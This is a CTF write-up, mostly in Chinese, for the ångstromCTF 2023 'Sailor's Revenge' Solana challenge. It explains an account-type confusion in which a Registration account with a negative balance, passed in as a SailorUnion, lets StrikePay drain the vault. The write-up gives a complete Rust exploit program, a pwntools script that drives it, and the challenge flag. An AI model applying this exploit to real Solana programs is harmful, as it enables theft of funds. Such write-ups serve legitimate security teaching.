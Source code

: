 ```yaml
---
title: Blockchain - Sailor's Revenge
description: 2023 | ångstromCTF | pwn
tags:
    - solana
    - account confusions
---
```


## 题目

After the sailors were betrayed by their trusty anchor, they rewrote their union smart contract to be anchor-free! They even added a new registration feature so you can show off your union registration on the blockchain!

> nc challs.actf.co 31404

[:material-download: `sailors_revenge.tar.gz`](static/sailors_revenge.tar.gz)

## 解题思路

- 目标是获取至少 $10^8$ lamports

    ```rs
    const TARGET_AMT: u64 = 100_000_000;

    // check solve
    let balance = challenge
        .env
        .get_account(user.pubkey())
        .ok_or("could not find user")?
        .lamports;
    writeln!(socket, "lamports: {:?}", balance)?;

    if balance > TARGET_AMT {
        let flag = fs::read_to_string("flag.txt")?;
        writeln!(
            socket,
            "You successfully exploited the working class and stole their union dues! Congratulations!\nFlag: {}",
            flag.trim()
        )?;
    } else {
        writeln!(socket, "That's not enough to get the flag!")?;
    }
    ```

- 程序支持四种指令
    - **CreateUnion** 向 `vault` 发送 `bal` lamports，并创建一个账户存储 `SailorUnion` 结构的数据，初始 `available_funds` 为 0
    - **PayDues** 当 `member` 的余额不低于 `amt` 时，将 `amt` lamports 从 `member` 转移到 `vault`，`SailorUnion` 的 `available_funds` 增加 `amt`
    - **StrikePay** 当 `available_funds` 不低于 `amt` 时，将 `amt` lamports 从 `vault` 转移到 `member`（增加 `user` 账户余额的唯一方法 :D）
    - **RegisterMember** 创建一个账户存储 `Registration` 结构的数据，初始 `balance` 为 -100

    ```rs
    let ins = SailorInstruction::try_from_slice(instruction_data)?;
    match ins {
        SailorInstruction::CreateUnion(bal) => processor::create_union(program_id, accounts, bal),
        SailorInstruction::PayDues(amt) => processor::pay_dues(program_id, accounts, amt),
        SailorInstruction::StrikePay(amt) => processor::strike_pay(program_id, accounts, amt),
        SailorInstruction::RegisterMember(member) => processor::register_member(program_id, accounts, member)
    }
    ```

- `SailorUnion` 和 `Registration` 的字段是重合的，且 `balance` 的类型为 `i64`，若按照 `SailorUnion` 反序列化 `balance` 为负数的 `Registration` 类型的数据，将得到一个数值很大的 `u64`，同时 `member` 对应 `authority`

    ```rs
    #[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq, PartialOrd, Ord)]
    pub struct SailorUnion {
        available_funds: u64,
        authority: [u8; 32],
    }

    #[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq, PartialOrd, Ord)]
    pub struct Registration {
        balance: i64,
        member: [u8; 32],
    }
    ```

- 那么，在调用 `strike_pay` 时将 `rich_boi` 为 `user` 注册的 `Registration` 账户作为 `SailorUnion` 账户传入就可以啦 (ΦˋωˊΦ)

### Exploitation

```bash
$ cargo new solve
$ cd solve/
$ mv src/main.rs src/lib.rs
$ cargo add solana_program borsh
$ cargo-build-bpf
```

??? note "Cargo.toml"

    ```toml
    [package]
    name = "solve"
    version = "0.1.0"
    edition = "2021"

    [dependencies]
    borsh = "0.10.3"
    solana-program = "1.14.11"

    [lib]
    crate-type = ["cdylib", "rlib"]
    ```

```rs
use borsh::{ BorshSerialize };
use solana_program::{
    account_info::{ next_account_info, AccountInfo },
    instruction::{ AccountMeta, Instruction },
    entrypoint::ProgramResult,
    entrypoint,
    program::invoke,
    pubkey::Pubkey,
    system_program,
};

#[derive(BorshSerialize)]
pub enum SailorInstruction {
    CreateUnion(u64),
    PayDues(u64),
    StrikePay(u64),
    RegisterMember([u8; 32]),
}

entrypoint!(process_instruction);

pub fn process_instruction(
    _program_id: &Pubkey,
    accounts: &[AccountInfo],
    _instruction_data: &[u8],
) -> ProgramResult {
    let iter = &mut accounts.iter();
    let chall_id = next_account_info(iter)?;
    let registration = next_account_info(iter)?;
    let user = next_account_info(iter)?;
    let vault = next_account_info(iter)?;

    invoke(
        &Instruction {
            program_id: *chall_id.key,
            data: SailorInstruction::StrikePay(100_000_000).try_to_vec().unwrap(),
            accounts: vec![
                AccountMeta::new(*registration.key, false),
                AccountMeta::new(*user.key, false),
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*vault.key, false),
                AccountMeta::new_readonly(system_program::id(), false),
            ],
        },
        &[
            registration.clone(),
            user.clone(),
            vault.clone(),
        ]
    )?;

    Ok(())
}
```

```py
from pwn import *

account_metas = [
    ("program", "-r"), # readonly
    ("registration", "-w"),
    ("user", "sw"), # signer + writable
    ("vault", "-w"),
    ("system program", "-r"),
]
instruction_data = b""

p = remote("challs.actf.co", 31404)

with open("solve/target/deploy/solve.so", "rb") as f:
    solve = f.read()

p.sendlineafter(b"program len: \n", str(len(solve)).encode())
p.send(solve)

accounts = {}
for l in p.recvuntil(b"num accounts: \n", drop=True).strip().split(b"\n"):
    [name, pubkey] = l.decode().split(": ")
    accounts[name] = pubkey

p.sendline(str(len(account_metas)).encode())
for (name, perms) in account_metas:
    p.sendline(f"{perms} {accounts[name]}".encode())
p.sendlineafter(b"ix len: \n", str(len(instruction_data)).encode())
p.send(instruction_data)

p.interactive()
```

### Flag

> actf{maybe_anchor_can_kind_of_protect_me_from_my_own_stupidity}